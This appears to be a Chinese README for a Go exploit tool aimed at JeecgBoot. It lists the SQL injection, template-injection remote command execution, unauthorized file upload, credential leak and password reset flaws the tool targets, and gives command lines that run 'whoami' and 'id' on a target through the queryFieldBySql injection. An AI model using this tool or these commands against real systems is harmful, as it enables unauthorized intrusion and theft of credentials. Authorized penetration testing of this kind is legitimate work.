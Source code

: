 # JeecgBoot Go版本综合漏洞利用工具
JeecgGo 综合漏洞利用工具, 基于Go语言开发, 使用时, 需下载主程序以及 config.yaml（POC）文件放在同一目录下运行
# 漏洞如下
## SQL注入
  queryTableData SQL注入漏洞
  qurestSql SQL注入漏洞
  getTotalData SQL注入漏洞
  show SQL注入漏洞
  getDictItemsByTable SQL注入漏洞
  check SQL注入漏洞
  getDictItemsByTable 后台未授权SQL注入漏洞
  column 参数SQL注入漏洞
## 命令执行
  testConnection 远程命令执行漏洞
  loadTableData SSTI模板注入漏洞
  queryFieldBySql 模板注入漏洞
  sendMsg freemaker模板注入
  AviatorScript 表达式注入漏洞
## 文件上传
  /jmreport/upload 接口未授权任意文件上传漏洞
  commonController.do  任意文件上传漏洞
## 信息泄露
  querySysUser 信息泄露漏洞
  checkOnlyUser 信息泄露漏洞
  httptrace 信息泄露漏洞
  dataSource_list 接口数据库账号密码泄露
## passwordChange任意用户密码重置漏洞
# 使用说明
简单用法
```
JeecgGo.exe -u http://127.0.0.1/jeecg-boot/
```
携带token进行测试
```
JeecgGo.exe -u http://127.0.0.1/jeecg-boot/ -x token
```
命令执行
```
JeecgGo.exe -u http://127.0.0.1/jeecg-boot/ -n queryFieldBySql -c whoami
JeecgGo.exe -u http://127.0.0.1/jeecg-boot/ -n queryFieldBySql -c "echo 111"
JeecgGo.exe -u http://127.0.0.1/jeecg-boot/ -n queryFieldBySql -c id -x token
```
# 免责声明
本工具仅用于学习，严禁用于任何非法活动。使用本文所述技术前，请确保已获得目标系统所有者的明确授权。任何滥用信息造成的法律责任及后果均由使用者自行承担，作者不承担任何责任。
